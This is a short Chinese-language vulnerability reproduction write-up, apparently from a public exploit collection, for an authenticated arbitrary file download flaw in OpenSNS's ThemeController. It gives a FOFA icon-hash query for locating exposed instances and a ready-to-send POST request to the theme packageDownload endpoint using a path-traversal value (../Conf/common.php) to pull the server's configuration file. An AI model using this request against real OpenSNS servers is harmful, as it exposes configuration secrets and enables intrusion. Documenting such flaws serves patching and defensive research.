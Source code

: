 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235703575.png)

存在漏洞的文件为 **Application/Admin/Model/ThemeController.class.php**

![img](../../../.vuepress/public/img/1634373152099-96ada529-b284-4aae-9a04-877693d8cfbf.png)	

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![img](../../../.vuepress/public/img/1634373562017-e7805233-165a-4e99-b12b-9ef7d0be3508.png)

构造请求

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![img](../../../.vuepress/public/img/1634374149802-424a321a-71f3-404a-9397-9a1f3085b9f3.png)